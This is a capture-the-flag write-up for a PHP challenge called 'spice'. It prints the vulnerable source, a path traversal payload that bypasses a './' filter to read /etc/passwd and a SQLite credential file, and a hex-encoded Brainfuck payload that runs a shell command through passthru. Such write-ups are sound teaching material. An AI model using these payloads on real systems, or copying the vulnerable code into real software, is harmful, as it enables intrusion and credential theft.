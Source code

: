 # spice
> Try /spice.php

> engineer1337 : engineer1337

> wait 5 sec, after start (long boot process)

## About the Challenge
We were given a website, and if we access the `/spice.php` endpoint the website will leak the source code

```php
<?php
require __DIR__ . '/vendor/autoload.php';
use \Firebase\JWT\JWT;
use Firebase\JWT\Key;
use \dotzero\Brainfuck;
include_once 'getSecret.php';
include_once 'db.php';

    if (isset($_GET['username']) && isset($_GET['password'])){

        $db = getDb();
        $user = filter_var($_GET['username'], FILTER_SANITIZE_SPECIAL_CHARS);

        $statement = $db->prepare("SELECT password FROM users WHERE username='" . $user . "'");
        $result = $statement->execute();
        
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            $pass  = reset($row);
        }

        if ($pass === $_GET['password']){
            $key = getSecret();
            $payload = ['user' => $user ];
            $jwt = JWT::encode($payload, $key, 'HS256');
            setcookie('jwt', $jwt);
            echo $jwt;
        } else {
            echo "Bad creditionals";
        }
    }
    else{
        if (isset($_GET['bf_base16'])){
        $swag = 123; 
        } else {
           $source = show_source("spice.php", true);
           echo $source;
                
    }
    }
    
    if (isset($_COOKIE['jwt'])){
        if (isset($_GET['bf_base16'])){
        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ($user === 'admin'){
            $base_code = $_GET['bf_base16'];
            $code = hex2bin($base_code);

            $bf = new Brainfuck($code);
            $output = $bf->run(true);

            passthru($output); ///It's a joke !
        }
        die();
        }

        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ( $user === 'engineer1337'){
            echo "Enter the title of the article to read it ";
            if(isset($_GET['article'])){
                $string = $_GET['article'];
                $article = str_replace("./", '', $string);
                if (!file_exists($article)){
                    echo "<h1>The article does not exist!</h1>";
                } else {
                    echo "Article: " . file_get_contents($article) ;
                }
            }
        } 
    }
?>
```

## How to Solve?
If we check on the source code, we can input a password and username using GET method. We use `engineer1337` as a password and username. So the request will be like this

![login](images/login.png)

After login, we need to add `article` parameter. And there is a `Directory Traversal` vulnerability because there is `file_get_contents` function

```php
if(isset($_GET['article'])){
    $string = $_GET['article'];
    $article = str_replace("./", '', $string);
    if (!file_exists($article)){
        echo "<h1>The article does not exist!</h1>";
    } else {
        echo "Article: " . file_get_contents($article) ;
    }
}
```

But there is a filter, if we input `./` the code will replace it with blank. So to bypass the filter, we can append the payload. The usual payload is `../../../../etc/passwd` and we can bypass that using `...//...//...//...//etc/passwd`

![dir_traversal](images/dir_traversal.png)

If we check the `spice.php` source code. There is an interesting file, `db.php` and `getSecret.php` (We will ignore getSecret.php because that file just a rabbit hole). If we check the content of `db.php` we will get another interesting file

![sqllite](images/sqlite.png)

There is a SQLite database file, if we check the content of the file by accessing `/spice.php?username=engineer1337&password=engineer1337&article=...//...//...//...//...//...//...//...//...//var/www/html/vuln-php.db` we will get administrator username and password

![sqlite_content](images/content_sqlite.png)

Now, use the admin credential as username and password.

![admin](images/admin.png)

Because we now login as administrator, we can execute an OS command using `bf_base16` parameter. Why? Check the code below, because we already login as administrator, we can execute OS command using `passthru` PHP function

```php
if ($user === 'admin'){
    $base_code = $_GET['bf_base16'];
    $code = hex2bin($base_code);

    $bf = new Brainfuck($code);
    $output = $bf->run(true);

    passthru($output); ///It's a joke !
}
```

Because the code using `Brainfuck()` and `hex2bin()`. We need to wrap our payload using brainfuck first and then encode it using hex.

For example I want to run `env` command. The brainfuck will look like this
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+.+++++++++.++++++++.
```

And then change it to hex
```
2b2b2b2b2b2b2b2b2b2b5b3e2b3e2b2b2b3e2b2b2b2b2b2b2b3e2b2b2b2b2b2b2b2b2b2b3c3c3c3c2d5d3e3e3e3e2b2e2b2b2b2b2b2b2b2b2b2e2b2b2b2b2b2b2b2b2e
```

Send the payload to the server using `bf_base16` parameter and you will get the flag because the flag was located on environment var

![flag](images/flag.png)

```
OmWars{fcd9ead7-575c-4d3f-b277-a8da7c509a97}
```